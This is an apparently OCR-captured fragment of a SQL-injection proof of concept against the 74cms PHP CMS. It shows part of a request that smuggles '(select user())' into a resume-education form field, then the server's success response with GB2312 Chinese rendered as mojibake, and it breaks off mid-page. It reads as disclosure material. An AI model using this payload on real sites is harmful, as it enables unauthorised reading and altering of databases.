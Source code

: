 start=2006%C4%EA2%D4%C2&amp;endtime=2000%C4%EA8%D4%C2&amp;school=88888&amp;speciality=99999',`key`=(select user()),`refreshtime`='9&amp;education_cn=%B8%DF%D6%D0&amp;education=66&amp;pid=1&amp;disabledsubmit=%B1%A3%B4%E6

Response:
HTTP/1.1 200 OK
Date: Thu, 16 Jan 2014 17:25:12 GMT
Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
X-Powered-By: PHP/5.4.22
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 3288
Content-Type: text/html;charset=gb2312

&lt;!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"&gt;
&lt;html xmlns="http://www.w3.org/1999/xhtml"&gt;
&lt;head&gt;
&lt;meta http-equiv="Content-Type" content="text/html; charset=gb2312" /&gt;
&lt;title&gt;ÏµÍ³ÌáÊ¾£¡&lt;/title&gt;
&lt;meta http-equiv="X-UA-Compatible" content="IE=7"&gt;
&lt;link rel="shortcut icon" href="/74cms/favicon.ico" /&gt;
&lt;link href="/74cms/templates/default/css/common.css" rel="stylesheet" type="text/css" /&gt;
&lt;style type="text/css"&gt;
&lt;!--
.shadow {   
 -moz-box-shadow: 3px 3px 5px #D9E1EA;   
 -webkit-box-shadow: 3px 3px 5px #D9E1EA;   
box-shadow: 3px 3px 5px #D9E1EA;   
/* For IE 8 */   
-ms-filter: "progid:DXImageTransform.Microsoft.Shadow(Strength=4, Direction=135, Color='#D9E1EA')";   
/* For IE 5.5 - 7 */   
filter: progid:DXImageTransform.Microsoft.Shadow(Strength=4, Direction=135, Color='#D9E1EA');   
}
--&gt;
&lt;/style&gt;&lt;/head&gt;
&lt;body&gt;
&lt;table width="600" border="0" align="center" cellpadding="6" cellspacing="0" style="font-size:14px; margin-top:160px; border:1px #CAE3EB solid; margin-bottom:100px;" class="shadow"&gt;
  &lt;tr&gt;
    &lt;td bgcolor="#E9F4F7"&gt;&lt;strong &gt;ÏµÍ³ÌáÊ¾£º&lt;/strong&gt;&lt;/td&gt;
  &lt;/tr&gt;
  &lt;tr&gt;
    &lt;td height="22" bgcolor="#FFFFFF"&gt;&lt;table width="100%" border="0" align="center" cellpadding="0" cellspacing="20" &gt;
      &lt;tr&gt;
        &lt;td width="80" align="right" valign="top"&gt; 

		&lt;img src="/74cms/templates/default/images/13.gif" /&gt;

		 &lt;/td&gt;
        &lt;td&gt;
		&lt;div style="font-size:12px; margin-top:2px; line-height:200%;"&gt;
		&lt;strong style="font-size:14px ; color: #006699"&gt;Ìí¼Ó³É¹¦,Äú¿ÉÒÔ¼ÌÐøÌí¼Ó½ÌÓý¾­Àú»òÌøµ½ÏÂÒ»²½ &lt;/strong&gt;
         &lt;div id="redirectionMsg" style="color:#999999;"&gt;
		 Èç¹ûÄú²»×ö³öÑ¡Ôñ£¬½«ÔÚ &lt;span id="spanSeconds"&gt;15&lt;/span&gt; ÃëºóÌø×ªµ½µÚÒ»¸öÁ´½ÓµØÖ·¡£		 &lt;/div&gt;
		&lt;div style=" border-bottom:1px #CCCCCC solid; width:400px; height:1px;"&gt;&lt;/div&gt;
          &lt;ul style="margin:0;list-style:none; margin-top:7px;" &gt;
                        &lt;li&gt;&lt;img src="/74cms/templates/default/images/21.gif" align="absmiddle" style="margin-right:5px;"/&gt;&lt;a href="?act=make4&amp;pid=1"  style="color: #006699"&gt;¼ÌÐøÌí¼Ó½ÌÓý¾­Àú&lt;/a&gt;&lt;/li&gt;